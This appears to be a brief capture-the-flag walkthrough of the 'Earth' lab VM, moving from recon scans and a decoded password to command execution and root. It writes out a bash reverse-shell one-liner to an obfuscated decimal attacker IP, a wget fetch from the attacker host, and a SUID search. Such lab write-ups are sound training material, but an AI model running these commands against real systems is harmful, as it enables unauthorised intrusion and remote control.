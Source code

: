 ﻿# The Planets: Earth 192.168.56.103
## Andrea Zonnekus 18758119

Start the process

sudo netdiscover -i eth0 -P > hosts &

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.001.png)

sudo nmap –vv -F -sV –version-light -O –osscan-limit 192.168.56.105 -oN initial\_scan

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.002.png)

dirb http://192.168.56.103:80 > dirb\_80

Doesn’t give much

Open services in web browser

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.003.png)

Seems to have an issue on the certificate

sudo openssl s\_client -connect 192.168.56.103:443 </dev/null 2>/dev/null | openssl x509 -inform pem -text | grep Name -A 1

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.004.png)

Add this

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.005.png)



Navigate and check it tout

dirb <http://earth.local/>

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.006.png)

Go to admin, look around, there is a CSRF Token

dirb <https://terratest.earth.local/>

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.007.png)

Something interesting

sudo wget https://terratest.earth.local/robots.txt --no-check-certificate

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.008.png)

Not shown is the testing notes – probably txt

sudo wget https://terratest.earth.local/testingnotes.txt --no-check-certificate

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.009.png)

And bingo was his name-o

Use xxd and website to decrypt 

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.010.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.011.png)

sudo xxd -r -p hex\_decode.txt

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.012.png)”earthclimatechangebad4humans” is the only thing here that makes sense

Get some system information

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.013.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.014.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.015.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.016.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.017.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.018.png)

We have some OS information, x64 Fedora 34, Kernel 5

cd /tmp; ls -al; touch tet.txt; ls

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.019.png)



Test if we can grab files

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.020.png)

cd /tmp; ls -al; wget http://192.168.56.102/test.txt; ls

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.021.png)

cd /tmp; ls; bash -i >& /dev/tcp/3232249958/666 0>&1; ls

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.022.png)

Typing bash then works

cd ~ then ls -lR

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.023.png)

Look around

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.024.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.025.png)

Totally forgot to spawn a shell

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.026.png)

find / -perm -4000 2>/dev/null

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.027.png)

cat /usr/bin/reset\_root

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.028.png)

Let’s just ltrace it

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.029.png)

Okay, on our machine then

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.030.png)

Make the files

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.031.png)

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.032.png)

Am root

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.033.png)

Yay

![](earth_steps/Aspose.Words.0b81a9db-0dc5-4a82-b2f4-060c5afe8b04.034.png)
